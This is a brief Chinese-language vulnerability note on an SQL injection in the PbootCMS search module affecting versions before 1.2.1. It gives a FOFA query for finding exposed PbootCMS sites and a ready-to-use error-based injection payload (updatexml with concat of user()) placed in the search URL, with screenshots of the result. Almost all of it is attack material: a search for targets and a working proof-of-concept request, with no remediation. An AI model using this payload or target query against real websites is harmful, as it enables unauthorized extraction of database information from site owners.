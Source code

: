 # PbootCMS search SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

```
PbootCMS < 1.2.1
```

## FOFA 

```
app="PBOOTCMS"
```

## 漏洞复现

搜索框页面为

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170924485.png)Payload为

```plain
/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123](http://127.0.0.1/PbootCMS/index.php/Search/index?keyword=123&updatexml(1,concat(0x7e,user(),0x7e),1));%23=123)
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170924075.png)